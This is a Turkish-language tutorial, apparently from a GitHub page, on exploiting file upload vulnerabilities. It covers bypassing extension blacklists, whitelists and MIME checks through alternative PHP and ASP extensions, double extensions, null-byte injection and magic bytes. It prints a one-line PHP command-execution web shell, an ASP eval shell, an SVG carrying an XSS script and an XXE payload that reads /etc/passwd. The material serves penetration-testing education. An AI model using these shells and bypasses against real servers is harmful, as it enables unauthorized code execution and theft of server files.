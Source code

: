 # Dosya Yükleme Saldırıları
Dosya yükleme zafiyetlerinin en temel nedeni, yüklenen dosyaların türü ve içeriğinin yeterli düzeyde doğrulanmamasıdır. Bu durumda saldırganlar herhangi bir dosya tipini yükleyebilir ve backend sunucuda zararlı kod çalıştırabilir. Bazı uygulamalar yalnızca belirli dosya türlerine izin verir. Ancak bu durumda bile zafiyetler söz konusu olabilir. Örneğin:
- Dosya yükleme üzerinden XSS veya XXE gibi farklı açıkların tetiklenmesi.
- Arka uç sunucuya yönelik DoS (Denial of Service) saldırılarının gerçekleştirilmesi.

# Dosya Yükleme Zafiyetlerinin Sömürüsü
Zafiyetin istismar edilebilmesi için ilk adım, uygulamanın hangi dil ve platform üzerinde çalıştığının tespit edilmesidir. zararlı script’ler, yalnızca sunucunun çalıştığı programlama diliyle uyumlu olduğunda kullanılabilir. Genellikle bu tespit, sayfa uzantıları üzerinden yapılabilir (.php, .asp, .aspx vb.). Ancak bazı modern framework’lerde web routes nedeniyle bu uzantılar gizlenmiş olabilir. Uygulama PHP tabanlı olduğunu varsayalım, dosya yükleme fonksiyonunun php uzantılı dosyaları kabul edip etmediğini test etmek için minimal bir reverse shell yüklenebilir:
```php
<?=`$_GET[0]`?> // 0 parametresini URL'den alır ve değeri işletim sistemi komutu olarak çalıştırır
```

Veya ASP için aşağıdaki reverse shell kullanılabilir:
```c#
<% eval request('cmd') %>
```

## İstemci Tarafı Dosya Uzantısı Kontrolü
İstemci tarafında çalışan her kod bizim kontrolümüzdedir. Web sunucusu front-end kodunu gönderir, ancak kod tarayıcıda çalıştırılır. Eğer back-end tarafında doğrulama yoksa, teorik olarak herhangi bir dosya türünü yükleyebiliriz.

## Back-end Tarafında Dosya Uzantısı Doğrulama
Genellikle iki yaygın yöntem vardır:
- blacklist ve whitelist kontrolü.

Ayrıca, doğrulama dosya tipini veya içerik tipini kontrol edebilir. En zayıf doğrulama yöntemi, sadece dosya uzantısını kara listeye karşı kontrol etmektir. 

### Blacklist
Örnek PHP kodu:
```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```

Bu kod, dosya uzantısını ($extension) alır ve black list uzantıları ile ($blacklist) karşılaştırır. Eğer listede varsa yükleme engellenir.

PHP bütün dosya uzantıları:
```
php
.php3
.php4
.php5
.php7
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
```

ASP dosya uzantıları:
```
.asp
.aspx
.config
.cer # (IIS <= 7.5)
.asa # (IIS <= 7.5)
shell.aspx;1.jpg # (IIS < 7.0)
shell.soap
```

### Whitelist
Whitelist Örneği:
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

Kod, dosya adının whitelisted resim uzantılarını içerip içermediğini regex ile kontrol ediyor. Sorun şu regex yalnızca dosya adının uzantıyı içerip içermediğine bakıyor, dosya adının uzantı ile bitip bitmediğini kontrol etmiyor. Regex sadece dosya adında izin verilen uzantıyı aradığı için, basit bir yöntem double extension kullanmak. Örneğin .jpg izinliyse, dosya adını shell.jpg.php yapabiliriz.

Bazı uygulamalar daha katı regex kullanır:
```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ... }
```

Bu regex yalnızca dosya adının son uzantısını kontrol eder. Önceki saldırı burada işe yaramaz. Ancak bazı durumlarda, web sunucusu konfigürasyonu nedeniyle hala istismar edilebilir.

Örnek Apache Konfigürasyonu:
```
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

#### Character Injection
İzin verilen uzantıdan önce veya sonra bazı karakterler ekleyerek web uygulamasının dosya adını yanlış yorumlamasını sağlayabiliriz.
Örnek karakterler:
``` 
%20, %0a, %00, %0d0a, /, .\, ., …, :
```

Örnek:
- shell.php%00.jpg → PHP 5.X veya daha eski sürümlerde %00 sonrası dosya adı kesilir ve shell.php olarak kaydedilir, whitelist testi geçer.
- Windows sunucularda, kolon : eklenerek benzer bypass sağlanabilir (örn. shell.aspx:.jpg).

### Type Filter
Örnek PHP kodu:
```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

Burada $type, yüklenen dosyanın Content-Type başlığından alınıyor. Tarayıcılar dosya seçildiğinde Content-Type başlığını otomatik ayarlar (genellikle uzantıya bağlı olarak). Bu, istemci tarafında kontrol edildiği için manipüle edilebilir ve filtre atlanabilir.

#### MIME-Type Kontrolü
İkinci ve daha yaygın yöntem, dosyanın MIME-Type ile kontrol edilmesidir. MIME, dosyanın türünü genel format ve byte yapısına göre belirler. Genellikle dosyanın ilk birkaç byte’ı (Magic Bytes / File Signature) incelenir.
Örnek:
- Dosya GIF87a veya GIF89a ile başlıyorsa GIF kabul edilir.
- Dosya düz metin ile başlıyorsa Text dosyası kabul edilir.

PHP ile MIME-Type kontrolü:
```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

MIME-Type ile Content-Type benzer, ancak PHP mime_content_type() fonksiyonunu kullanır.

Örnek olarak PHP web shell’in başına GIF8 eklenebilir.

## XSS (Cross-Site Scripting)
Belirli dosya türleri, Stored XSS açığı oluşturmak için kullanılabilir. Web uygulaması HTML dosyalarına izin veriyorsa, PHP kodu çalıştıramasak bile JavaScript ekleyerek XSS veya CSRF saldırısı gerçekleştirebiliriz. 
SVG dosyaları da XSS için uygundur:
```svg
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

Yüklendiğinde XSS payload tetiklenir.

## XXE (XML External Entity)
Benzer şekilde, XXE saldırıları da gerçekleştirilebilir. SVG veya XML dosyaları kullanarak sunucu dosyalarına erişebiliriz.
Örnek SVG ile /etc/passwd okumak:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Yüklendiğinde ve görüntülendiğinde /etc/passwd içeriği sayfada veya kaynakta görünür.